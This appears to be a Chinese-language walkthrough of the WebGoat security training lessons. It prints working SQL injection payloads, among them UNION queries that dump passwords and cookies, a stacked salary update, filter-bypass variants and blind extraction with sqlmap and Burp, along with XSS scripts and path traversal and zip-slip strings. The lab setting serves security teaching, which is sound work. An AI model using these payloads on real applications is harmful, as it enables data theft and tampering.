

## （A3） Injection
### 1. SQL Injection (intro)
+ 1-2，查询语句  
```
select department from Employees where first_name='Bob'
```
+ 1-3,修改语句
```
update employees set department='Sales' where first_name='Tobi'
```
+ 1-4,修改表，添加字段
```
alter table employees add phone varchar(20)
```
+ 1-5,修改权限
```
grant select on grant_right to unauthorized_user
```
+ 1-9,最基本的sql注入，通过注入获取所有用户信息。
  

+ 1-10,这关使用数字注入，数字注入就不用考虑引号的问题，更简单一些。
  

+ 1-11, 这关还是字符串注入，获取全部用户信息  


+ 1-12,smith想看其他人的工资，然后把自己的工资改成最高的，其他人的工资在上一节已经获取了，可以看到最高的是83700，现在只要把smith的改成比这个大的数就可以。想要改数据库，这时就需要拼接sql了，一句sql是以分号结束的，所以只要加个分号，后面再拼接一个update语句就可以。
```
aa' or '1'='1';update  employees set salary=100000 where auth_tan='3SL99A
```


+ 1-13,正常完成入侵后需要清理痕迹，这关是需要删除日志表。直接拼接drop语句。


### 2. SQL Injection (advanced)
+ 2-3,这关是要获取其他表的数据，可以使用union，要注意的是union出来的字段要和原字段数量和类型保持一致，数量不够的可以用常数来补,根据提供的表数据
```
1' or '1'='1' union select userid,user_name,password,cookie,'aa','bb',5 from user_system_data where '1'='1
```

可以看到dave的密码，填入check即可。

+ 2-5，这里有两个页面，要看哪里存在注入，除了手动试之外还可以借助sqlmap,先随便填个数据，保存到文件，putdata.txt.
```
sqlmap -r putdata.txt
```


可以看到注册页面的username_reg存在注入点，而且数据库类型是hsqldb。  
下面来分析一下，  
首先在登录页面，我们不管填什么，返回的都是no results matched ,try again。没有任何变化，得不到其他信息，所以没有注入。  
在注册页面，当我们使用tom注册时，发现返回的是用户已注册，而随便给他用户名去注册是提示的是注册成功，说明注册的时候，后端是去先查询用户名的。那这里就是一个注入点了。也就是布尔盲注。

接下来就是找tom的密码了，一开始我是用sqlmap按步骤去盲注，先获取数据库名，再获取表名，再查字段。但是这里都行不通，数据库名都拿不到。所以只能手动尝试了。  
首先判断是否有password字段   
这里我们可以尝试这样判断 password is not null, 返回true，说明存在，否则就是不存在。

已经注册，说明后面条件是true，字段名password是存在的。  
下面就开始tom的密码的长度，长度可以使用and length(password)=50来判断，具体多少就要多试了，我用了burpsuit来爆破。  


可以看出是23.  
因为是盲注，所以知道了密码长度，下面只能一个一个的猜了，使用and substring(password,1,1)='a' 语句，每一位都要所有字符，字母加数字还有特殊符号什么的，也只能用burpsuit爆破了，设置两个参数，一个位数，一个是字符。

可以看到最后密码是：thisisasecretfortomonly

+ 2-6，这关是选择题，但是我这里没有展示出来，跳过

### 3.SQL Injection (mitigation)

+ 3-5,这关就是写能防止注入的代码，使用预编译的方式。


+ 3-6,这也是写代码的。
```
try{
    Connection conn = DriverManager.getConnection(DBURL,DBUSER,DBPW);
    PreparedStatement statement = conn.prepareStatement("SELECT status FROM users WHERE name= ? and mail = ?");
    statement.setString(1, "aa");
    statement.setString(1, "bbm@com");
    ResultSet results = statement.executeQuery();
} catch(Exception e) {
    System.out.println("Oops. Something went wrong!");
}
```  
但是我这里一直报 complie is null

+ 3-9,这里是之前那个获取密码的关卡，但是添加了字符过滤，如果用之前的方法会提示不能有空格，所以要想办法转义掉空格，  
sql语句里注释会被替换为空格，所以最后sql为：
```
1'/**/or/**/'1'='1'/**/union/**/select/**/userid,user_name,password,cookie,'aa','bb',5/**/from/**/user_system_data/**/where/**/'1'='1
```  
+ 3-10,这一关加了更严格的过滤，如果把上面的语句输进去会发现，select和from没了，被过滤掉了。那要反过滤可以拼接selselectct,这样过滤掉select之后，刚好还剩select,from同理。最后语句为：
```
1'/**/or/**/'1'='1'/**/union/**/selselectect/**/userid,user_name,password,cookie,'aa','bb',5/**/frofromm/**/user_system_data/**/where/**/'1'='1

```
+ 3-12,这一关的注入点是在排序，我们需要通过注入找到一个ip地址，排序的注入点是在order by 后面拼接条件，也是盲注。  
order by case when (1=1) then ip else id end  
如果when 后面的条件是true，就是用ip排序，如果是false，就是id排序。我们就通过这个来判断。那我们想要目标ip的话需要构造的sql为：  
```
 order by case when (substring((select ip from SERVERS where hostname='webgoat-prd'),1,1)='1') then id else ip end
```  
这里有个问题是现在还不知道表名servers,这个表名其实就在报错信息里，
  
这里的报错信息把整个sql都返回了，正常肯定是不会有的，这里估计就是为了方便。因为题目只需要我们猜前三位，所以直接爆破就可以。得到104


### 4. Cross Site Scripting
跨站脚本
+ 4-2， 这一关是获取cookie，打开一个先标签在控制台输入 alert(document.cookie)即可。

+ 4-7， 这里我们先点击 purchase,发现是card number会展示出来的，所以很明显，这里是可以注入的，我们输入
```
<script>alert('hello')</script>
```

就可以看到弹框。  
+ 4-10， 这关的是要找到隐藏的XSS，很多项目会写测试代码，这些测试代码页面看不到，但是代码里会有，而且一般安全性很低，所以会有潜在的xss，要在前端的代码里搜索了，做过前端的应该很熟。最后结果是： start.mvc#test

+ 4-11, 这关是在上一关找出的隐藏url上执行xss，所以在新tab打开url,并加上脚本：  
start.mvc#test/<script>webgoat.customjs.phoneHome()</script>  
观察控制台会打印出数字，填入即可。如果不行就需要就脚本先进行url编码再拼接。  

### 5. Cross Site Scripting (stored)
存储型跨站脚本
+ 5-3，这关直接在评论区输入脚本，再点击edit，就可以在控制台看到数字，再提即可。 

### 6. Path traversal
文件穿越

+ 6-2，文件穿越，主要是没有对文件保存的路劲进行限制，是由用户输入的，所有我们这里要知道服务器保存路劲是哪个参数，通过测试我们最后发现是跟这个fullname有关，修改为../test即可。


+ 6-3，这关在上一关基础上加了路劲过滤，我们想办法绕过，添加....//即可

+ 6-4，这一关将fullname字段修复，漏洞改在了filename.


+ 6-5,这关是让我们获取path-traversal-secret.jpg的图片，这个直接拼文件名就可以,注意文件名要url编码


+ 6-7，这一关是zip漏洞，java代码在解压zip文件是获取文件名会直接用，这时如果文件名是个多级的 像../../../../../../../tmp/evil.sh，这样就可以到达任意目录，通关方法就是下一节的说明，命令都有

